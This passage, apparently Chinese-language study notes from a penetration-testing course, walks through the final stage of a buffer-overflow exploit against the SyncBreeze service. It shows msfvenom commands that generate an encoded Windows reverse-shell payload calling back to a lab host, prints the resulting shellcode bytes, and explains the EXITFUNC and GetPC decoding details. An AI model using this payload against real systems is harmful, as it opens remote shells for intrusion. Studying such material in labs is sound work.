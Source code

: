 我们将在地址0x10090c83处放置一个断点，以跟踪JMP ESP指令的执行，然后再次运行漏洞利用程序

![image-20200414150617105](assets/5.BOF.assets/image-20200414150617105.png)

我们可以看到EIP指令指针已经指向JMP ESP，如果再次步进的话，会看到一堆D

### 生成最终脚本

首先生成shellconde,注意去除badcharacters

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x 86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
No platform was selected, choosing Msf::Module::Platform::Windows from the payload No Arch selected, selecting Arch: x86 from the payload
Found 22 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 351 (iteration=0)
unsigned char buf[] =
"\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1" "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a" "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59" "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48" "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f" "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6" 
.....
```

Metasploit shellcode的默认退出方法是ExitProcess API。 当反向外壳终止时，此退出方法将关闭整个Web服务过程，从而有效终止SyncBreeze服务并使其崩溃，如果我们要利用的程序是线程应用程序，并且在这种情况下，我们可以尝试通过使用ExitThread API来避免完全崩溃服务，该方法只会终止程序的受影响线程。 这将使我们的利用工作得以正常进行，而不会中断SyncBreeze服务器的正常运行，并使我们能够反复利用该服务器并退出Shell而无需关闭服务。可以使用`EXITFUNC=thread`参数来生成一个多线程程序对应的shellcode

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC= thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"
.....
unsigned char buf[] =
"\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1" "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a" "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59" "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48" "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f" "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6" 
.....
```

我们还有另一个要克服的障碍,我们使用msfvenom生成了编码的Shellcode。 由于编码，shellcode不能直接执行，因此shellcode由解码器作为前缀。它会遍历编码的shellcode字节，并将其解码回其原始可执行形式。解码器需要在内存中收集其地址，然后从那里开始查找几个字节，以找到需要解码的已编码Shellcode。该代码执行一系列汇编指令，通常称为GetPC(Get Program Counter 获得程序计数器),在x86下可以理解为GetEip, 这本质上是一个简短的例程，它将EIP寄存器（有时称为程序计数器或PC）的值移动到另一个寄存器中。
